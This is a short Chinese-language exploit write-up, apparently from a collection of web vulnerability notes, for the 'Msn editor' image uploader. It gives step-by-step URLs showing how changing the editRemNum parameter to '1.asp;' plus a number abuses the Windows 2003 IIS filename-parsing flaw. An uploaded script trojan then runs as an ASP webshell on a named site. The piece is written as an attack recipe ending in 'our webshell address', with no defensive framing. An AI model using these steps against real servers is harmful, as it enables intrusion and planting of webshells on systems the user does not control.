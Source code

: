 ## Msn editor

### 利用WIN 2003 IIS文件名称解析漏洞获得SHELL

影响版本：未知
脆弱描述：
点击图片上传后会出现上传页面，地址为
http://navisec.it/admin/uploadPic.asp?language=&editImageNum=0&editRemNum=
用普通的图片上传后，地址为
http://navisec.it/news/uppic/41513102009204012_1.gif
记住这时候的路径，再点击图片的上传，这时候地址就变成了
http://navisec.it/news/admin/uploadPic.asp?language=&editImageNum=1&editRemNum=41513102009204012
很明显。图片的地址是根据RemNum后面的编号生成的。
攻击利用:
配合IIS的解析漏洞，把RemNum后面的数据修改为1.asp;41513102009204012，变成下面这个地址
http://navisec.it/admin/uploadPic.asp?language=&editImageNum=0&editRemNum=1.asp;41513102009204012
然后在浏览器里打开，然后选择你的脚本木马上传，将会返回下面的地址
uppic/1.asp;41513102009204012_2.gif
直接打开就是我们的小马地址！